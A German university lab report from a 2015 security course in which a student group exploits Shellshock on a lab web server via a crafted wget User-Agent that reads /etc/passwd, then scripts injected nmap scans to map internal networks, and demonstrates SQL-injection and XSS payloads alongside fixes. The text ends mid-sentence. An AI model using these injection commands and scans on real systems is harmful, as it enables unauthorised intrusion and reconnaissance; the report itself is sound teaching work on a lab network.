%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% Institut für Rechnergestuetzte Automation
% Forschungsgruppe Industrial Software
% Arbeitsgruppe ESSE
% http://security.inso.tuwien.ac.at/
% lva.security@inso.tuwien.ac.at
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\usepackage{esseProtocol}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% FOR STUDENTS
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Group number or "0" for Lab0
\newcommand{\gruppe}{05}
% Date
\newcommand{\datum}{14.05.2015}
% valid values: "Lab0", "Lab1" (be sure to use Uppercase for first character)
\newcommand{\lab}{Lab1}

\newcommand{\lvaname}{Security for Systems Engineering}
\newcommand{\lvanr}{183.637}
\newcommand{\semester}{SS 2015}

% Student data in Lab0 or 1. student of group in Lab1
\newcommand{\studentAName}{Marcel Gredler}
\renewcommand{\studentAMatrnr}{1325175}

% 2. student of group in Lab1, for Lab0 or if your group has less students, remove these 2 lines
\newcommand{\studentBName}{Maximillian Moser}
\renewcommand{\studentBMatrnr}{1326252}

% 3. student of group in Lab1, for Lab0 or if your group has less students, remove these 2 lines
\newcommand{\studentCName}{Roman Tonigold}
\renewcommand{\studentCMatrnr}{1327192}

% 4. student of group in Lab1, for Lab0 or if your group has less students, remove these 2 lines
\newcommand{\studentDName}{Rafał Włodarski}
\renewcommand{\studentDMatrnr}{1327160}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\lang}{de}
\newcommand{\colormode}{color}
\newcommand{\dokumenttyp}{Abgabedokument \lab}

\begin{document}

\maketitle
\setcounter{section}{0}
\setcounter{tocdepth}{2}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% CONTENT OF DOCUMENT STARTS HERE
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Lab1a}

Nachdem wir uns mit dem Webserver verbunden hatten haben wir uns einmal angesehen welche Funktionalitäten auf der Homepage zur Verfügung stehen. Hierbei haben wir die Funktionen ausprobiert und uns zudem den Source-Code aller angesehen. Während dieser Prozedur sind uns zwei Orte aufgefallen an denen eine Schwachstelle verborgen sein könnte und zwar die Such-Funktion und Kontaktierung. //
Auf den ersten Blick kannten wir keinen Angriff der auf CGI-Skripts oder MAIL gerichtet war, da wir jedoch den Hinweis hatten das ein erst vor kurzem gefundener Fehler auf der Seite versteckt ist haben wir eine kleine Recherche durchgeführt und sind hierbei auf den "`Shellshock"' gestoßen. Natürlich haben wir diesen Angriff nun ausprobiert, um zu sehen ob wir hiermit auf den Server Zugriff erlangen. Mittels 
\begin{center}
wget --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U ''() { test;};echo \textbackslash''Content-type: text/plain\textbackslash''; echo; echo; /bin/cat /etc/passwd'' http://localhost:8805/cgi-bin/search
\end{center}
haben wir getestet ob wir auf dem Server etwas auslesen können, und da wir auf diesen Versuch eine Antwort bekommen hatten, konnten wir über dieses Pattern alle notwendigen Informationen erlangen. 

\subsection{Warum funktioniert Shellshock?}

In einem Shellskript ist es möglich Variablen und Funktionen zu definieren. Um diese definierten Funktionen und Variablen verwenden zu können müssen sie aufrufbar sein, was im Shellskript dadurch gemacht wird, dass Variablen und Funktionen in Umgebungsvariablen exportiert werden, welche später aufgerufen werden können. Wenn nun Parameter übergeben werden, werden diese in eine Umgebungsvariable "`geparst"' und eventuell anhängende Funktionen ebenfalls, jedoch in eine mit anderem Namen. Die Funktion selbst ist somit harmlos, die Problematik besteht nun jedoch darin das zusätzlich angehängte Befehle an die Funktion sofort (und ohne Überprüfung) aufgerufen werden, was heißt, dass die Funktion nie aufgerufen werden muss um Schaden anzurichten. \\
\\
Warum funktioniert dies nun auf dem Webserver? \\
Die Antwort hierauf ist leicht, der Server verwendet für die Suchfunktion ein CGI-Skript, welches selbst über die Bash aufgerufen wird. Die übergebene Suchinformation wird hierbei als Variable an die Bash übergeben, wodurch wir genau in den oben beschriebenen Fehler hinein gelangen.

\subsection{Was kann im System verbessert werden?}

Die Schwachstellen im System sind zum einen die Bash-Version (in neuen Versionen wurde ein Update durchgeführt um die Lücke zu schließen) und die fehlende Input Validierung. Würde das System die Eingabe im Suchfeld vor dem Abschicken an das CGI-Skript mittels Whitelisting überprüfen, könnte der Shellshock-Angriff gefiltert und somit vermieden werden, wodurch auch ältere Bash-Versionen keine Probleme mehr bereiten. Eine andere Lösung wäre nichtsdestotrotz das Update der Bash auf dem Server um die Lücke in der Bash selbst zu schließen (hierbei ist das Problem das Updates auf Server oft nur sehr schwer, z.B. viele Sicherheitstests und Trockenläufe, durchführbar sind).

\section{Lab1b}

\subsection{Vorgehensweise}

\subsubsection{Einführung}

Den Shellshock ausnützend wurden vom attackierten Host aus Befehle für das Sondieren des Netzwerks ausgeführt, unter anderem:
\begin{itemize}
	\item /sbin/ifconfig
	\item /sbin/route
	\item tracepath
	\item /usr/sbin/arp
	\item nmap
\end{itemize}

Anmerkung: Jene Befehle, welche nicht gleich erkannt wurden, wurden mit "whereis" gefunden.

\subsubsection{Vorgehen}

Zuerst haben wir die IPv4-Netze gescannt. Da ein Scan über die Netze 192.168.0.0/16 und 172.16.0.0/16 einen Timeout mit wget erzeugten, haben wir uns entschlossen, ein Shellscript zu schreiben, welches diese Aufgabe in mehrere kleine Scans zerlegt (Listing ~\ref*{code:scan1}).

\begin{lstlisting}[caption=Scan der IPv4-Netze,label=code:scan1,language=bash,style=simple]
	#!/bin/bash
	for ((z=0;z<=255;z++))
	do
	ip="192.168."${z}".0/24"
	file="net"${z}
	cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; nmap -sP '${ip}';" http://localhost:8805/cgi-bin/search'
	echo ${cmd}
	eval $cmd
	done
\end{lstlisting}

Nach einigen erfolglosen Versuchen, die IPv6-Netze fdcb:172:16:2:1000::/120, fdcb:AC:10:2:1000::/120, fdcb:192:168:98:1000::/120 und fdcb:C0:A8:62:1000::/120 zu scannen sind wir auf die Idee gekommen, ein ifconfig auf dem attackierten Host auszuführen.

Dabei sind wir auf die Tatsache gestoßen, dass der angegriffene Host sich im Netz fdcb:c447:e9d2:3553:1001:: befindet. Daher haben entsprechend diese Netze gescannt (Listing ~\ref*{code:scan2})


\begin{lstlisting}[caption=Scan der IPv6-Netze,label=code:scan2,language=bash,style=simple]
#!/bin/bash
# variable "pres" als array deklarieren
declare -a pres=("c447:e9d2:3553")

for pre in ${pres[@]} 
do
for i in {0,1,2,3,4,5,6,7,8,9,a,b,c,d,e,f}
do

ips=""

for j in $(seq 0 1 255)
do

# convert $j to hex
hex=$(echo "obase=16; $j" | bc)

# calculate IP
ip="fdcb:${pre}:100${i}::${hex}"

# add IP to list of IPs
ips="${ips} ${ip}"

done

file="net6-${pre}-${i}"
inCmd="nmap -6 -sP ${ips}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo;'${inCmd}';" http://localhost:8805/cgi-bin/search'

echo "INJECTED COMMAND"
echo "==="
echo ${inCmd}
echo "==="
eval $cmd
done
done

\end{lstlisting}

Anschließend haben wir von den gefundenen Hosts die Ports mittels nmap -A -p- gescannt (Listing ~\ref*{code:pscan}).

\begin{lstlisting}[caption=Portscan der gefundenen Hosts,label=code:pscan,language=bash,style=simple]
#!/bin/bash
# das 172er netz scannen
for i in 12 15 25 253
do
ip="172.16.2.${i}"
injCmd="nmap -A -p- ${ip}"
file="host-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 192er netz scannen
for i in 1 5 22 54 99 124 201 202
do
ip="192.168.98.${i}"
injCmd="nmap -A -p- ${ip}"
file="host-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 1001er netz scannen
for i in 1 5 9 21 43 79 88 ab
do
ip="fdcb:c447:e9d2:3553:1001::${i}"
injCmd="nmap -6 -A -p- ${ip}"
file="host6-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 1002er netz scannen
for i in fd fe
do
ip="fdcb:c447:e9d2:3553:1002::${i}"
injCmd="nmap -6 -A -p- ${ip}"
file="host6-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done

# das 1003er netz scannen
for i in 7f 9a da
do
ip="fdcb:c447:e9d2:3553:1003::${i}"
injCmd="nmap -6 -A -p- ${ip}"
file="host6-${ip}"

cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo; '${injCmd}';" http://localhost:8805/cgi-bin/search'

eval $cmd
done
\end{lstlisting}

Schlussendlich haben wir noch Befehle wie route, tracepath und tracepath6 verwendet, um einen besseren Überblick über die Topologie zu bekommen (Im Stile von Listing ~\ref*{code:restscript}).

\begin{lstlisting}[caption=Scan der IPv4-Netze,label=code:restscript,language=bash,style=simple]
file="uname"
inCmd="/bin/uname -a"
cmd='wget -O '${file}' --user=user05 --password=d6/0g0Um1zlAmfYF6tA32Q== -U "() { test; }; echo \"Content-type: text/plain\"; echo; echo;'${inCmd}';" http://localhost:8805/cgi-bin/search'

echo "INJECTED COMMAND"
echo "==="
echo ${inCmd}
echo "==="
eval $cmd
\end{lstlisting}

Dabei hat sich vor allem ergeben, dass der Host mit Namen SUN der zentrale Gateway im Netzwerk ist und unser Einstiegshost EARTH ist (I see what you did there).

\subsection{Netzwerke und Hosts}

\subsubsection{172.16.2.0}
Alle Hosts in diesem Netz liegen in der Domain dmz.vienna.essecorp.invalid.
\begin{itemize}
	\item 172.16.2.12: pluto
	\\Dienste: HTTP (lighttpd 1.4.31) auf Port 80, Titel: EsseCorp Inc.
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: HTTP-Server
	
	\item 172.16.2.15: charon
	\\Dienste: FTP (vsftpd 2.3.5) auf Port 21
	\\Geschätztes OS: Unix (Exim smtpd ist nur auf Unixoiden OS vorhanden; auch von nmap geschätzt)
	\\Geschätzte Rolle: FTP-Server
	
	\item 172.16.2.25: eris
	\\Dienste: SMTP (Exim smtpd 4.80) auf Port 25
	\\Geschätztes OS: Unix (Exim smtpd ist nur auf Unixoiden OS vorhanden)
	\\Geschätzte Rolle: Mail-Server
	
	\item 172.16.2.253: makemake
	\\Dienste: Filtered SSH auf Port 22
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Produktions-Server oder Netzwerk-Gerät
\end{itemize}

\subsubsection{192.168.98.0}
Alle Hosts in diesem Netz liegen in der Domain local.vienna.essecorp.invalid.
\begin{itemize}
	\item 192.168.98.1: sun
	\\Dienste: filtered ssh auf Port 22
	\\Geschätztes OS: Cisco IOS/anderes Router-OS
	\\Geschätzte Rolle: Gateway
	
	\item 192.168.98.5: venus
	\\Dienste: DNS (dnsmasq 2.62) auf Port 53
	\\Geschätztes OS: Unix (dnsmasq ist nur auf Unixoiden OS verfügbar)
	\\Geschätzte Rolle: DNS-Server
	
	\item 192.168.98.22: saturn
	\\Dienste: SMTP (Exim smtpd 4.80) auf Port 25
	\\POP3 (Dovecot pop3d) auf Port 110
	\\IMAP (Dovecot imapd) auf Port 143
	\\Geschätztes OS: Unix (Dovecot ist nur auf Unixoiden OS verfügbar)
	\\Geschätzte Rolle: Mail-Server
	
	\item 192.168.98.54: mars
	\\Dienste: SOCKS5 auf Port 1080
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Proxy
	
	\item 192.168.98.99: jupiter
	\\Dienste: IPP (CUPS 1.5) auf Port 631
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Drucker(-Server)
	
	\item 192.168.98.124: earth
	\\Dienste: SSH (OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)) auf Port 22
	\\HTTP (Apache httpd 2.2.22 ((Debian))) auf Port 8801 - 8840
	\\Geschätztes OS: Linux (Debian)
	\\Geschätzte Rolle: Webserver
	
	\item 192.168.98.201: neptune
	\\Dienste: netbios-ssn (Samba smbd 3.X (workgroup: ESSECORP)) auf Port 139
	\\netbios-ssn (Samba smbd 3.X (workgroup: ESSECORP)) auf Port 445
	\\Geschätztes OS: Unix (samba 3.6.6)
	\\Geschätzte Rolle: File-Sharing-Server
	
	\item 192.168.98.202: mercury
	\\Dienste: N/A
	\\Geschätztes OS: N/A
	\\Geschätzte Rolle: Workstation
	
\end{itemize}

\subsubsection{fdcb:c447:e9d2:3553:1001::}
Alle Hosts in diesem Netz liegen in der Domain local.vienna.essecorp.invalid.
Anmerkung: Die Hosts in diesem Netz sind mit hoher Wahrscheinlichkeit dieselben Hosts wie im Netz 192.168.98.0, nur mit ihren konfigurierten IPv6-Adressen.\\
Die einzige Änderung bezüglich Diensten liegt beim Host MARS vor.
\begin{itemize}
	\item fdcb:c447:e9d2:3553:1001::1: sun
	\\Dienste: filtered ssh auf Port 22
	\\Geschätztes OS: Cisco IOS/anderes Router-OS
	\\Geschätzte Rolle: Gateway
	
	\item fdcb:c447:e9d2:3553:1001::5: venus
	\\Dienste: DNS (dnsmasq 2.62) auf Port 53
	\\Geschätztes OS: Unix (dnsmasq ist nur auf Unixoiden OS verfügbar)
	\\Geschätzte Rolle: DNS-Server
	
	\item fdcb:c447:e9d2:3553:1001::9: saturn
	\\Dienste: SMTP (Exim smtpd 4.80) auf Port 25
	\\POP3 (Dovecot pop3d) auf Port 110
	\\IMAP (Dovecot imapd) auf Port 143
	\\Geschätztes OS: Unix (Dovecot ist nur auf Unixoiden OS verfügbar)
	\\Geschätzte Rolle: Mail-Server
	
	\item fdcb:c447:e9d2:3553:1001::21: mars
	\\Dienste: HTTP-Proxy (Tinyproxy 1.8.3) auf Port 8080
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Proxy
	
	\item fdcb:c447:e9d2:3553:1001::43: jupiter
	\\Dienste: IPP (CUPS 1.5) auf Port 631
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Drucker(-Server)

	\item fdcb:c447:e9d2:3553:1001::79: neptune
	\\Dienste: netbios-ssn (Samba smbd 3.X (workgroup: ESSECORP)) auf Port 139
	\\netbios-ssn (Samba smbd 3.X (workgroup: ESSECORP)) auf Port 445
	\\Geschätztes OS: Unix (samba 3.6.6)
	\\Geschätzte Rolle: File-Sharing-Server
	
	\item fdcb:c447:e9d2:3553:1001::88: mercury
	\\Dienste: N/A
	\\Geschätztes OS: N/A
	\\Geschätzte Rolle: Workstation
		
	\item fdcb:c447:e9d2:3553:1001::ab: earth
	\\Dienste: SSH (OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)) auf Port 22
	\\HTTP (Apache httpd 2.2.22 ((Debian))) auf Port 8801 - 8840
	\\Geschätztes OS: Linux (Debian)
	\\Geschätzte Rolle: Webserver
\end{itemize}

\subsubsection{fdcb:c447:e9d2:3553:1002::}
Alle Hosts in diesem Netz liegen in der Domain dmz.vienna.essecorp.invalid.
Anmerkung: makemake ist wahscheinlich derselbe Host wie makemake aus dem Netz 172.16.2.0.
\begin{itemize}
	\item fdcb:c447:e9d2:3553:1002::fd: makemake
	\\Dienste: Filtered SSH auf Port 22
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Produktions-Server oder Netzwerk-Gerät
	
	\item fdcb:c447:e9d2:3553:1002::fe: tauceti
	\\Dienste: Filtered SSH auf Port 22
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Produktions-Server oder Netzwerk-Gerät
\end{itemize}

\subsubsection{fdcb:c447:e9d2:3553:1003::}
Alle Hosts in diesem Netz liegen in der Domain extra.vienna.essecorp.invalid.
\begin{itemize}
	\item fdcb:c447:e9d2:3553:1003::7f: sirius
	\\Dienste: HTTP (lighttp 1.4.31) auf Port 80, Titel: EsseCorp Extranet
	\\HTTP (lighttp 1.4.31) auf Port 443, Titel: EsseCorp Extranet
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Web-Server
	
	\item fdcb:c447:e9d2:3553:1003::9a: procyon
	\\Dienste: echo auf Port 7
	\\discard auf Port 9
	\\daytime auf Port 13
	\\chargen (Linux chargen) auf Port 19
	\\SSH (OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)) auf Port 22
	\\time auf Port 37
	\\Geschätztes OS: Linux (Debian)
	\\Geschätzte Rolle: Test-Server (bzw. Server für alles)
	
	\item fdcb:c447:e9d2:3553:1003::da: tauceti
	\\Dienste: filtered ssh auf Port 22
	\\Geschätztes OS: Unix
	\\Geschätzte Rolle: Produktions-Server oder Netzwerk-Gerät
	
\end{itemize}

\subsection{Topologie}
Anmerkung: Für jeden Host wurde maximal eine IP-Adresse angegeben (Abb. \ref*{fig:topology}).
\begin{figure}[h!]
	\centering
	\fbox{
		
\includegraphics[width=1\textwidth]{./imgs/lab1.png}
	}
	\caption{Topologie}
	\label{fig:topology}
\end{figure}

\section{Lab1c}

\subsection{app0}

\subsubsection{Schwachstelle}

Die Implementierte Schwachstelle in diesem Code ist "`Injection"', genauer gesagt "`SQL-Injection"'. \\
Bei "`Injection"' Angriffen geht es darum in einem Datenabfrage-Protokoll (wie z.B. SQL) Befehle einzuschläußen, um Attacken durchzuführen. Damit dies möglich ist, muss man in der Lage sein die Meta-Symbole des Protokolls verwenden zu können (z.B. Kommentar, neues Kommando, ...). \\
\\
Wo befindet sich der Fehler im Code?

\begin{lstlisting}[caption=Code mit Schwachstelle,label=code:app0a,style=c]
public static void main(String[] args){

		System.out.println(args[0]);
        if(args.length < 1){
            System.err.println("Usage: java -jar SQLInjection <name to add>");
            System.exit(-1);
        }
        String name = args[0];
        Connection conn = null;
        String add_person_to_db = "INSERT INTO person(name) VALUES (";

        try{
            Class.forName("org.h2.Driver");
        } catch (ClassNotFoundException e) {
            System.err.println("Cant' find Driver for H2-Database");
            System.exit(-1);
        }
        try {
            conn = DriverManager.getConnection("jdbc:h2:tcp://localhost/~/app0", "admin", "");
        } catch (SQLException e) {
            System.err.println("Cannot create connection from Manager.");
            System.exit(-1);
        }

        if(conn != null){

            try {

                Statement stat = conn.createStatement();
                boolean retval = stat.execute(add_person_to_db+"'"+name+"')");
                System.out.println("Added Person:<"+name+"> to database.");
                stat.close();
            } catch (SQLException e) {
                System.out.println("Invalid input \nUsage: java -jar SQLInjection <name to add>\n"+e.getMessage());
                System.exit(-1);
            }

        }

        if(conn != null){

            try {
                conn.close();
            } catch (SQLException e) {
                System.err.println("Couldn't close DB-connection.");
            }

        }

        System.exit(1);
    }
\end{lstlisting}

Wie man im Listing~\ref*{code:app0a} sehen kann, werden die Übergebenen Argumente einfach gelesen und verwendet (Zeilen 8 und 30). Da die Meta-Symbole in diesen Zeilen nicht entfernt werden und die Abfrage in Zeile 30 erst erstellt wird, können weitere Befehle eingeschläußt werden, bzw. der derzeitige Befehlt modifiziert werden. \\
\\
Wie kann der Fehler behoben werden? \\
\\
Um den Fehler zu beheben könnte man anstelle von normalen Statements, PreparedStatements verwenden. Eine andere Möglichkeit wäre es die erhaltenen Informationen zu "`Whilelisten"', um dadurch alle Meta-Symbole zu entfernen.

\subsubsection{Ausnutzen der Schwachstelle}

Um die Schwachstelle ausnutzen zu können müssen die folgenden Schritte getätigt werden:
\begin{itemize}
\item (H2-Datenbank muss gestartet und DB erstellt sein)
\item anstatt einfach den Namen einer Person anzugeben, kann man ein SQL Kommando übergeben. Zum Beispiel könnte man statt "`Manro"', "`D"); DROP TABLE person --"' verwenden
\item der Name muss beim Starten des Programms angegeben werden
	\begin{center}
	java -jar app0a.jar <name-exploit>
	\end{center}
\end{itemize}

\subsubsection{Korrektur der Schwachstelle}

\begin{lstlisting}[caption=korregierter Code,label=code:app0b,style=c]
public static void main(String[] args){

        if(args.length != 1){
            System.err.println("Usage: java -jar SQLInjection <name to add>");
            System.exit(-1);
        }
        String name = args[0];
        Connection conn = null;
        String add_person_to_db = "INSERT INTO person(name) VALUES (?)";

        try{
            Class.forName("org.h2.Driver");
        } catch (ClassNotFoundException e) {
            System.err.println("Cant' find Driver for H2-Database");
            System.exit(-1);
        }
        try {
            conn = DriverManager.getConnection("jdbc:h2:tcp://localhost/~/app0", "admin", "");
        } catch (SQLException e) {
            System.err.println("Cannot create connection from Manager.");
            System.exit(-1);
        }

        if(conn != null){

            try {

                PreparedStatement stat = conn.prepareStatement(add_person_to_db);
                stat.setString(1,name);
                boolean retval = stat.execute();
                System.out.println("Added Person:<"+name+"> to database.");
                stat.close();
            } catch (SQLException e) {
                e.printStackTrace();
                System.exit(-1);
            }

        }

        if(conn != null){

            try {
                conn.close();
            } catch (SQLException e) {
                System.err.println("Couldn't close DB-connection.");
            }

        }

        System.exit(1);
    }
\end{lstlisting}

Die Schwachstelle im Programm ist aufgehoben worden, indem im Code anstatt von Statements, PreparedStatements verwendet wurden (dies ist in Listing~\ref*{code:app0b} zu sehen). Wieso ist dieser Code nun sicher? \\
Bei PreparedStatements sind die Abfragen bereits erstellt, zu dem Zeitpunkt indem die Parameter übergeben werden. Die Abfragen wurden beim Erstellen des PreparedStatements bis auf die "`?"' bereits optimiert und es werden anschließend nur noch Primitive erlaubt.

\subsubsection{Wo ist diese Schwachstelle aufgetreten?}

\begin{itemize}
\item Im Oktober 2014 wurde eine Schwachstelle für SQL-Injection im Playstation Network gefunden. Obwohl diese Schwachstelle nicht ausgenutzt worden ist (wurde von einem Sicherheitsexperten gefunden), gab es vor dem Fix dieser Schwachstelle die Möglichkeit mittels einfachem Injection über den Browser die Nutzerdaten von Millionen-Usern auszulesen. \\
Quelle: http://www.golem.de/news/sql-injection-sicherheitsluecke-erlaubt-zugriff-auf-sony-kundendaten-1410-110199.html (abgerufen am 14.05.2015 um 16:35)
\item Im April 2015 haben australische Forscher eine Schwachstelle in der MedicalApp von SAP gefunden, mit der es möglich ist SQL-Injection durchzuführen. Ein derartiger Angriff würde es einem erlauben die Daten aus der Datenbank auszulesen, oder neue Daten einzufügen (neue Patientendaten). Zu diesem Zeitpunkt gibt es glücklicherweise noch keine Mitteilungen das diese Schwachstelle auf bösartige Weise ausgenutzt worden wäre. \\
Quelle: http://customstoday.com.pk/researchers-found-sql-injection-flaw-in-sap-medical-app-allow-other-apps-to-get-access-to-emr-unwired-database-3/ (abgerufen am 14.05.2015 um 16:45)
\item Aufgrund einer Schwachstelle in Magento (April 2015) sind 100K Webseiten gefährdet. Diese Schwachstelle erlaubt es mittels SQL-Injection einen neuen Admin-User in die Datenbank einzufügen und mittels diesem Kontrolle über eben jene zu erhalten. Seit dem Bekanntwerden dieser Schwachstelle wurden bereits einige Angriffe auf Webseiten gestartet, welche diese Schwachstelle angreifen. \\
Quelle: http://arstechnica.com/security/2015/04/potent-in-the-wild-exploits-imperil-customers-of-100000-e-commerce-sites/ (abgerufen am 14.05.2015 um 16:50)
\item Im April 2015 wurde die Firma AussieTravelCover mittels SQL-Injection angegriffen. Mithilfe dieses Angriffs ist es den Angreifer möglich gewesen die Daten von mehr als 750K Kunden zu erhalten. Um den Fehler zu beheben wurde die Webseite für einen guten Monat offline genommen, zudem sind die Behörden eingeschalten worden, jedoch bis jetzt ohne Festnahmen. \\
Quelle: http://news.softpedia.com/news/Aussie-Travel-Cover-Hacked-Over-750-000-Customer-Records-Exposed-470583.shtml (abgerufen am 14.05.2015 um 17:05)
\end{itemize}

% begin app1

\subsection{app1}

\subsubsection{Schwachstelle}
Hier wurde die Schwachstelle des XSS (Cross-Site-Scripting) in Java implementiert.\\
Von Angriff gefährdet sind Web-Anwendungen, in welchen User textuellen Inhalt erstellen können, welcher dann direkt auf der Seite verwendet wird (Beispiel: Gästebuch-Anwendungen).\\
Dabei schreibt ein Angreifer einen Inhalt so, dass er vom Browser interpretiert wird und eventuell schadhaften Code ausführt.\\
Beispiel:\\
In einem Gästebuch hinterlässt ein Angreifer die Nachricht 'Hallo!<script>alert("gotcha");</alert>'.
\\\\
Im Falle einer verwundbaren Anwendung wird ein User, welcher sich das Gästebuch dann ansieht, einen Eintrag ``Hallo!'' sehen und sein Browser wird einen Alert-Dialog mit Inhalt ``gotcha''  anzeigen (sofern der User Javascript aktiviert hat).
\\\\
Verhindert werden kann diese Schwachstelle durch Validierung und Sanierung des Inputs (z.B. im Falle des Gästebuches: Ersetzen aller HTML-Metazeichen durch ihre Entities).

\subsubsection{Schwachstelle in Code}
Bei der folgenden Anwendung (Listing ~\ref*{code:app1a}) befindet sich die Schwachstelle im Bereich um Zeile 36, wo der angegebene String einfach in die Datenbank eingefügt wird, ohne vorher überprüft zu werden.
\begin{lstlisting}[caption=XSS Schwachstelle,label=code:app1a,style=c]
	public static void main(String[] args) {
	String entry = null;
	
	if(args.length > 1){
	
	System.err.println("Usage: Guestbook [<GUESTBOOK ENTRY TEXT>]");
		System.exit(1);
	}
	
	Connection conn = null;
	
	// ... setting up driver & opening connection
	
	// if no argument was specified:
	// print the page with all guestbook entries up to now
	try {
		
		String query = null;
		
		if (args.length == 0) {

			// ... output old guestbook entries
		
		// if an argument was specified:
		// use it as a new guestbook entry
		}else {
		
			entry = "";
			for(int i=0; i<args.length; i++){
				entry += args[i] + " ";
			}
			entry = entry.trim();
			
			// VULNERABILITY: NO INPUT SANITATION!
			
			query = "INSERT INTO entries (content) VALUES (?)";
			
			pStmt = conn.prepareStatement(query);
			pStmt.setString(1, entry);
			pStmt.execute();
		}
		
	}catch (Exception e){
		e.printStackTrace();
	
	}finally {

		// ... close stuff
	}
}
\end{lstlisting}

\subsubsection{Ausnutzen der Schwachstelle}

Um die Schwachstelle auszunutzen, kann das konkrete verletzbare Programm beispielsweise folgendermaßen aufgerufen werden:

java -jar vulnApp01.jar '<script>alert("vulnerable");</script>'

Nun sollte beim nächsten Aufruf des Programms ohne Parametern ein HTML generiert werden, das nach Öffnen mit einem Browser, welcher Javascript unterstützt und aktiviert hat, ein Alert-Fenster mit dem String "vulnerable" erscheinen.
Dies bestätigt die Verwundbarkeit des Programms.

Anmerkung: Das erzeugte HTML kann wie üblich per Pipes in eine Datei umgeleitet werden:

